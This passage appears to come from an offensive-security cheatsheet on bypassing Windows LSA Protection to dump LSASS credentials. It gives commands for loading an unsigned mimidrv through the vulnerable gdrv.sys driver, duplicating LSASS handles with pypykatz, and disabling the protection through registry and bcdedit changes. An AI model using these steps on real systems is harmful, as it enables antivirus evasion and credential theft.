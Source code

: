If a protected antivirus solution is installed on the targeted system, a
legitimate driver vulnerable to a code execution vulnerability can be loaded in
order to gain kernel space code execution. The `gdrv-loader` project leverages
the `gdrv.sys` driver, vulnerable to multiples critical vulnerabilities
(`CORE-2018-0007`), to load the specified unsigned driver. Doing so, a modified
`mimidrv` driver that does not raise antivirus alerts can be loaded in memory.

```bash
# Loads the (potentially unsigned) specified driver using the gdrv.sys driver.
gdrv-loader.exe gdrv.sys <mimidrv.sys | DRIVER_FILE_PATH>

# The mimikatz process can directly be protected as the mimidrv driver is loaded in the kernel.
mimikatz # !processProtect /process:mimikatz.exe
[...]

# Unloads the specified driver.
gdrv-loader.exe <mimidrv.sys | DRIVER_FILE_PATH>
```

*Through duplication of an handle on the `LSASS` opened by an unprotected process.*

If an unprotected process running locally has an opened handle on the `LSASS`
process, this handle can be duplicated in order to read / dump `LSASS` memory
through it, even if the `LSASS` process itself is protected. An unprotected
user-land process could have obtained such handle legitimately through a
Windows driver for example.

The [`pypykatz`](https://github.com/skelsec/pypykatz)'s `handledup` method
implements this technique in the following manner:
  1. enumeration of all handles opened by all processes using the semi
    documented `NtQuerySystemInformation` API

  2. For each process:<br>
        2.1 opening of the process using the `Win32` API `OpenProcess` with the             `PROCESS_DUP_HANDLE` access right. <br>
        2.2 duplication of each of the opened process's handles using the
        `Win32` API `DuplicateHandle`. <br>
        2.3 For each handle, check if its a handle on the `LSASS` process using
        the `Win32` `NtQueryObject` and `QueryFullProcessImageName` APIs.

```bash
pypykatz live lsa --method handledup
```

*Official opt-out procedure.*

Finally, the Microsoft official `LSA Protection` opt-out procedure can be
followed in order to disable the `UEFISecureBootEnabled` mechanism and reset the
`UEFI` variable.

```bash
# Procedure source: https://www.microsoft.com/en-us/download/details.aspx?id=40897

reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\SecureBoot\State /v UEFISecureBootEnabled /d 0x0

# Requires the x64\LsaPplConfig.efi or x86\LsaPplConfig.efi Extensible Firmware Interface files from the official procedure.
# Should be run in a command prompt with elevated privileges.
mountvol X: /s
copy C:\LsaPplConfig.efi X:\EFI\Microsoft\Boot\LSAPPLConfig.efi /Y
bcdedit /create {0cb3b571-2f2e-4343-a879-d86a476d7215} /d "DebugTool" /application osloader
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} path "\EFI\Microsoft\Boot\LSAPPLConfig.efi"
bcdedit /set {bootmgr} bootsequence {0cb3b571-2f2e-4343-a879-d86a476d7215}
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} loadoptions %1
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} device partition=X:
mountvol X: /d
```
